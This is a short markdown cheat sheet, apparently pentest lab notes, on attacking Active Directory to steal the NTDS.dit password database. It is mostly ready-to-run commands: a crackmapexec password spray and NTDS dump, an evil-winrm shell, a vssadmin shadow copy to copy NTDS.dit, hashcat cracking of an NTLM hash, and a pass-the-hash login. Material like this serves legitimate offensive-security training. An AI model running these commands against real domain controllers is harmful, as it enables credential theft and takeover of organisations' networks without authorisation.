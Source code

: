 # Attacking AD & NTDS.dit

***

On Windows Server operating systems, the file that stores the password hashes of all domain accounts on a domain controller is typically named "_NTDS.dit_." This file is located in the "C:\Windows\NTDS" directory. NTDS stands for NT Directory Service, which is the core component of Active Directory.

```bash
crackmapexec smb 10.129.201.57 -u user -p /usr/share/wordlists/rockyou.txt
```

## NTDS.dit

```bash
crackmapexec smb 10.129.201.57 -u user -p P@55w0rd! --ntds
```

### Another way

```bash
evil-winrm -i 10.129.201.57  -u user -p 'P@55w0rd!'
```

#### Checking Local Group Membership

```powershell
*Evil-WinRM* PS C:\> net localgroup
```

To make a copy of the NTDS.dit file, we need local admin (Administrators group) or Domain Admin (Domain Admins group) (or equivalent) rights.

```powershell
*Evil-WinRM* PS C:\> net user username
```

#### Create Shadow copy of C:

```powershell
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:
```

#### Copying NTDS.dit from VSS

```powershell
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

## Cracking Hashes

```bash
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

## Pass-the-hash

We can still use hashes to attempt to authenticate with a system using a type of attack called Pass-the-Hash (PtH). A PtH attack takes advantage of the NTLM authentication protocol to authenticate a user using a password hash. Instead of username:clear-text password as the format for login, we can instead use username:password hash.

```bash
evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```
